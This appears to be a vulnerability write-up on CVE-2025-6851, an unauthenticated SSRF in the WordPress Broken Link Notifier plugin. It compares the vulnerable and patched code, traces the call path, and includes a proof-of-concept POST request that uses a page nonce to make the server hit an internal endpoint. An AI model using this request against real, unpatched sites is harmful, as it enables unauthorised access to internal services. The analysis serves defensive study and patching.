


<!--more-->

## CVE & Basic Info

The **Broken Link Notifier** plugin for WordPress is vulnerable to **Server‑Side Request Forgery** in all versions up to and including **1.3.0** via the `ajax_blinks()` function which ultimately calls `check_url_status_code()`. This allows **unauthenticated attackers** to perform web requests to arbitrary addresses from the web application and can be used to query or modify information from internal services.

* **CVE ID**: [CVE-2025-6851](https://www.cve.org/CVERecord?id=CVE-2025-6851)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 1.3.0
* **Patched Versions**: 1.3.1
* **CVSS severity**: Medium (7.2)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Broken Link Notifier Plugin](https://wordpress.org/plugins/broken-link-notifier/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Broken Link Notifier**: **1.3.0** (vulnerable) and **1.3.1** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to inspect and compare differences between the two versions.

## Analysis

### Patch diff

```php {title="helpers.php - v1.3.0" hl_lines=[6,11,13]}
public function check_url_status_code( $url, $timeout = null ) {
    // Add the home url
    if ( str_starts_with( $url, '/' ) ) {
        $link = home_url().$url;
    } else {
        $link = $url;
    }
    ...

    // Check the link
    $response = wp_remote_get( $link, $http_request_args );
    if ( !is_wp_error( $response ) ) {
        $code = wp_remote_retrieve_response_code( $response );    
        $error = 'Unknown';
    } else {
        $code = 0;
        $error = $response->get_error_message();
    }
} // End check_url_status_code
```

In the vulnerable version, the `check_url_status_code()` function calls `wp_remote_get()` directly with the user-supplied URL without validating or checking the safety of the URL. This creates a **SSRF (Server-Side Request Forgery)** vulnerability. This version does not check the URL scheme, whether the host is valid, or whether the IP belongs to private/reserved ranges, so all requests are executed without restriction.

```php {title="helpers.php - v1.3.1" hl_lines=[6,9,10,11,12,16,18,26]}
public function check_url_status_code( $url, $timeout = null ) {
    // Add the home url
    if ( str_starts_with( $url, '/' ) ) {
        $link = home_url().$url;
    } else {
        $link = $url;
    }
    // Block SSRF to private/reserved ranges
    $unsafe = $this->is_url_unsafe( $link );
    if ( $unsafe ) {
        return apply_filters( 'blnotifier_status', $unsafe );
    }
    ...

    // Check the link
    $response = wp_remote_get( $link, $http_request_args );
    if ( !is_wp_error( $response ) ) {
        $code = wp_remote_retrieve_response_code( $response );    
        $error = 'Unknown';
    } else {
        $code = 0;
        $error = $response->get_error_message();
    }
} // End check_url_status_code

protected function is_url_unsafe( $url ) {
    $parts = wp_parse_url( $url );

    if ( ! isset( $parts[ 'scheme' ], $parts[ 'host' ] ) ) {
        return [
            'type' => 'broken',
            'code' => 0,
            'text' => 'Blocked: invalid or malformed URL',
            'link' => $url
        ];
    }

    $scheme = strtolower( $parts[ 'scheme' ] );
    if ( ! in_array( $scheme, [ 'http', 'https' ], true ) ) {
        return [
            'type' => 'broken',
            'code' => 0,
            'text' => 'Blocked: unsupported URL scheme',
            'link' => $url
        ];
    }

    $host = $parts[ 'host' ];
    $records = @dns_get_record( $host, DNS_A + DNS_AAAA );
    $ips = [];

    if ( is_array( $records ) && count( $records ) ) {
        foreach ( $records as $record ) {
            if ( isset( $record[ 'type' ] ) && $record[ 'type' ] === 'A' && ! empty( $record[ 'ip' ] ) ) {
                $ips[] = $record[ 'ip' ];
            }
            if ( isset( $record[ 'type' ] ) && $record[ 'type' ] === 'AAAA' && ! empty( $record[ 'ipv6' ] ) ) {
                $ips[] = $record[ 'ipv6' ];
            }
        }
    } else {
        $resolved = gethostbyname( $host );
        if ( $resolved && $resolved !== $host ) {
            $ips[] = $resolved;
        }
    }

    if ( empty( $ips ) ) {
        return [
            'type' => 'broken',
            'code' => 0,
            'text' => 'Blocked: host could not be resolved',
            'link' => $url
        ];
    }

    foreach ( $ips as $ip ) {
        if ( filter_var( $ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE ) === false ) {
            return [
                'type' => 'broken',
                'code' => 0,
                'text' => 'Blocked: resolved to internal or reserved IP address',
                'link' => $url
            ];
        }
    }

    return false; // Safe
} // End is_url_unsafe()
```

The patch added the `is_url_unsafe()` function. Before calling `wp_remote_get()`, the URL is checked in detail: only `http` and `https` schemes are allowed, the host is validated, DNS resolution is performed to obtain IPs, and any internal or reserved IP addresses are blocked. If the URL is invalid or unsafe, the function returns detailed block information and **does not perform the request**, thereby **effectively preventing SSRF**. The patch ensures only safe URLs are allowed to be fetched, reducing the risk of external attacks.

### Vulnerable Code

```php {title="helpers.php - v1.3.0" hl_lines=[3,6,43,45,82,83,84,85,86,87,90]}
public function check_url_status_code( $url, $timeout = null ) {
    // Get the 'allow_redirects' option and sanitize it
    $allow_redirects = filter_var( get_option( 'blnotifier_allow_redirects' ), FILTER_VALIDATE_BOOLEAN );

    // Determine the request method based on allow_redirects option
    $request_method = $allow_redirects ? 'GET' : 'HEAD';

    // Force giving head for images, videos, and audio files
    if ( $request_method == 'GET' ) {
        $file_extension = strtolower( pathinfo( $url, PATHINFO_EXTENSION ) );
        if ( in_array( $file_extension, $this->get_force_head_file_types() ) ) {
            $request_method = 'HEAD';
        }
    }
    
    // User agent
    $user_agent = $this->get_user_agent( $url );

    // Add the home url
    if ( str_starts_with( $url, '/' ) ) {
        $link = home_url().$url;
    } else {
        $link = $url;
    }

    // Check if from youtube
    if ( $watch_url = $this->is_youtube_link( $link ) ) {
        $link = 'https://www.youtube.com/oembed?format=json&url='.$watch_url;
    }

    // The request args
    // See https://developer.wordpress.org/reference/classes/WP_Http/request/
    $http_request_args = apply_filters( 'blnotifier_http_request_args', [
        'method'      => $request_method,
        'timeout'     => $timeout,
        'redirection' => absint( get_option( 'blnotifier_max_redirects', 5 ) ),
        'httpversion' => '1.1',
        'sslverify'   => filter_var( get_option( 'blnotifier_ssl_verify', true ), FILTER_VALIDATE_BOOLEAN ),
        'user-agent'  => $user_agent
    ], $url );

    // Check the link
    $response = wp_remote_get( $link, $http_request_args );
    if ( !is_wp_error( $response ) ) {
        $code = wp_remote_retrieve_response_code( $response );    
        $error = 'Unknown';
    } else {
        $code = 0;
        $error = $response->get_error_message();
    }

    // Let's make invalid URL 0 codes broken
    if ( $code === 0 && ( $error == 'A valid URL was not provided.' || strpos( $error, 'cURL error 6: Could not resolve host' ) !== false ) ) {
        $code = 666;
    }

    // Possible Codes
    $codes = $this->get_status_codes();

    // Files too large
    if ( $request_method == 'GET' ) {
        $content_length = wp_remote_retrieve_header( $response, 'content-length' );
        if ( $content_length && $content_length > 10 * 1024 * 1024 ) { // 10 MB
            $code = 413;
        }
    }
    
    // Bad links
    if ( in_array( $code, $this->get_bad_status_codes() ) ) {
        $type = 'broken';

    // Warnings
    } elseif ( in_array( $code, $this->get_warning_status_codes() ) ) {
        $type = 'warning';

    // Good links
    } else {
        $type = 'good';
    }

    // Filter status
    $status = apply_filters( 'blnotifier_status', [
        'type' => $type,
        'code' => $code,
        'text' => ( $code !== 0 && ( isset( $codes[ $code ] ) && $codes[ $code ][ 'msg' ] != '' ) ) ? $codes[ $code ][ 'msg' ] : $error,
        'link' => $url
    ] );

    // Return the array
    return $status;
} // End check_url_status_code
```

The `check_url_status_code()` function is responsible for **checking the status of a URL** and classifying it as **good, warning, or broken**. Specifically, the function performs the following main steps:

1. Retrieve configuration options

   * Get the `blnotifier_allow_redirects` option from the database and convert it to boolean → Decide whether to use **GET** or **HEAD** for the request.

2. Choose request method

   * If `allow_redirects = true`, default to **GET**.
   * If the URL is a **media file** (image, video, audio), the function forces **HEAD** to avoid downloading large files.

3. Determine user-agent

   * Calls `$this->get_user_agent()` to get an appropriate user-agent for the request.

4. Normalize the URL

   * If the URL starts with `/` → prepend `home_url()` to form an absolute URL.
   * If the URL is a **YouTube link**, convert it to the `oembed` endpoint to obtain information safely without accessing the video directly.

5. Configure the request:
   Build the `$http_request_args` array containing request parameters:

* `method` (GET/HEAD)
* `timeout`
* `redirection` (max number of redirects)
* `sslverify` (whether to verify SSL)
* `user-agent`

6. Perform the request

   * Call `wp_remote_get($link, $http_request_args)` to obtain the response.
   * If no error → retrieve the **status code** from the server.
   * If error → retrieve the error message.

7. Handle invalid URLs

   * Some basic errors such as invalid URL provided or host not resolvable → assign special code `666`.

8. Handle oversized files

   * If request method is GET and **content-length > 10MB**, assign code `413` (Payload Too Large).

9. Classify result based on returned code:

* `broken` → broken URL
* `warning` → warning URL
* `good` → valid URL

10. Return result: Create the `$status` array including:

* `type` → URL type (`good/warning/broken`)

* `code` → HTTP code or special code

* `text` → message (message from codes array or error)

* `link` → original URL

* Finally, return this array for the plugin to use to display the URL status.


This function only sends a request to the URL and returns the URL status, it does not retrieve or return the file content. The SSRF issue arises when an attacker provides a URL pointing to internal services — the server will perform the request on behalf of the attacker, which can cause actions such as modifying data, deleting data, scanning/internal port checking, or calling sensitive endpoints. The function does not allow reading the returned file body directly, but performing requests to internal services alone can be harmful.


`check_url_status_code()` is called inside `check_link()`

```php {title="helpers.php - v1.3.0" hl_lines=[6,9,13,29]}
public function check_link( $link ) {
    ...
    // Handle the filtered link if false
    if ( !$link ) {
    ...
    } elseif ( str_starts_with( $link, home_url() ) || ( str_starts_with( $link, '/' ) && !str_starts_with( $link, '//' ) ) ) {
        
        // Check locally first
        if ( !url_to_postid( $link ) ) {                

            // It may be redirected or an archive page, so let's check status anyway
            // return $this->check_url_status_code( $link );
            $status = $this->check_url_status_code( $link );
            $CACHE->set_cached_link( $status );
            return $status;
        }
    // Otherwise
    } else {
        // Skip url schemes
        foreach ( $this->get_url_schemes() as $scheme ) {
            if ( str_starts_with( $link, $scheme.':' ) ) {
                $status[ 'text' ] = 'Skipping: Non-Http URL Schema';
                return $status;
            }
        }

        // Return the status
        // return $this->check_url_status_code( $link );
        $status = $this->check_url_status_code( $link );
        $CACHE->set_cached_link( $status );
        return $status;
    }

    // Return the good status
    return $status;
} // End check_link()
```

`check_link()` validates the URL before calling `check_url_status_code()`. If the link is internal but doesn't point to a valid post (`elseif`), or is an external link (`else`), the function will call `check_url_status_code()` to obtain the status (`good`, `warning`, `broken`) and cache it. Empty, invalid, or unsupported-scheme links are skipped and no request is sent.

`check_link()` is called inside `ajax_blinks()`

```php {title="results.php - v1.3.0" hl_lines=[3,8,9,14,17,22,26]}
public function ajax_blinks() {
    // Verify nonce
    if ( !isset( $_REQUEST[ 'nonce' ] ) || !wp_verify_nonce( sanitize_text_field( wp_unslash( $_REQUEST[ 'nonce' ] ) ), $this->nonce_blinks ) ) {
        exit( 'No naughty business please.' );
    }

    // Get the ID
    $source_url    = isset( $_REQUEST[ 'source_url' ] ) ? filter_var( wp_unslash( $_REQUEST[ 'source_url' ] ), FILTER_SANITIZE_URL ) : '';
    $header_links  = isset( $_REQUEST[ 'header_links' ] ) ? wp_unslash( $_REQUEST[ 'header_links' ] ) : []; // phpcs:ignore WordPress.Security.
    ...

    // Make sure we have a source URL
    if ( $source_url ) {

        // Only allow webpages, not file:///, etc.
        if ( !str_starts_with( $source_url, 'http' ) ) {
            wp_send_json_error( 'Invalid source: ' . $source_url );
        }

        // Header links
        if ( !empty( $header_links ) ) {
            foreach ( $header_links as &$header_link ) {
                $count_links++;
                $header_link = $HELPERS->sanitize_link( $header_link );
                $status = $HELPERS->check_link( $header_link );
                if ( in_array( $status[ 'code' ], $notify_status_codes ) ) {
                    $count_notify++;
                    $notify[ 'header' ][] = $status;
                } else {
                    $good_links[ 'header' ][] = $status;
                }
            }
        }
        ...
    } 
    ...
} // End ajax_blinks()
```

This function is registered as a callback for an action hook with the hook name `wp_ajax_nopriv_blnotifier_blinks` for **anonymous users**

```php
private $ajax_key_blinks = 'blnotifier_blinks';
add_action( 'wp_ajax_nopriv_'.$this->ajax_key_blinks, [ $this, 'ajax_blinks' ] );
```

It then performs the following:

1. Check `nonce` to prevent CSRF


Because this hook is intended for **anonymous users**, the `nonce` will also appear in the homepage source code.



2. Read data from the request

   * Retrieve `source_url` and links from `header_links`
   * Only accept `source_url` that starts with `http`.

3. Iterate each `header_links` item and call `check_link()` to check status
`header_links` is passed as an array: `header_link[0]=http://example.com`

### Flow


graph LR
A[Anonymous Client sends URL] --> B[ajax_blinks]
B --> C[check_link]
C --> D[check_url_status_code]
D --> E[wp_remote_get with user-supplied URL]
E --> F[Response from server]


## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, request
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/delete', methods=['GET'])
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

### Proof of Concept (PoC)

1. Visit the homepage and obtain the `nonce`

2. Send a POST request to the endpoint

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=blnotifier_blinks&nonce=87f4d1ef16&source_url=http://localhost:8001/&header_links[0]=http://127.0.0.1:8001/delete?id=1
```

**Result**:



## Conclusion

Broken Link Notifier versions **≤1.3.0** are vulnerable to **SSRF**: the endpoint allows anonymous users to supply URLs, which leads to `wp_remote_get()` being called against internal services. Version **1.3.1** added DNS/IP checks and restrictions, preventing SSRF before the request is performed.

## Key takeaways

* **Upgrade immediately** to **≥1.3.1**.
* **Do not trust client-provided URLs** — validate/allowlist before fetching.
* **Block internal IPs** (resolve DNS, block private/reserved ranges).
* **Restrict endpoint privileges** (do not allow anonymous).
* **Return status instead of raw body** when content is not needed.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Broken Link Notifier Plugin <= 1.3.0 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/broken-link-notifier/vulnerability/wordpress-broken-link-notifier-plugin-1-3-0-unauthenticated-server-side-request-forgery-vulnerability)
